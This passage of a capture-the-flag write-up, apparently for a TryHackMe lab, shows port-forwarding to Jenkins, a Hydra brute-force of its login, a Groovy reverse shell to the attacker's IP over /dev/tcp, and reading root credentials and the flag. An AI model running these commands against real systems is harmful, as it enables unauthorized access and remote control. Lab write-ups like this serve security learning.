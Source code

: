 ```bash
ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.112.28
```
let's visit `127.0.0.1:8080`
### Jenkins
![](https://imgur.com/8ihisfrl.png)
### hydra
```bash
hydra 127.0.0.1 -s 8080 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt
...
8080][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-22 13:35:35
```
`http://127.0.0.1:8080/manage`

![](https://imgur.com/Nb0OMwbl.png)

To create a reverse shell on the system, we need to use Groovy script. Since it is basically Java, we can use a Java reverse shell from pentestmonkey.
```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.8.131.89/1235;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
I can then listen for a connection on port 1235 and successfully get a reverse shell.
![](https://imgur.com/OwQWfk5l.png)

There was a `note.txt` in `/`opt` directory
```bash
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you
need access to the root user account.

root:xxxxxxxxxxx
```
![](https://imgur.com/Ho48ftxl.png)

### Root Flag
```bash
root@internal:~# cat root.txt
THM{d0ck3r_xxxxxxxx}
```
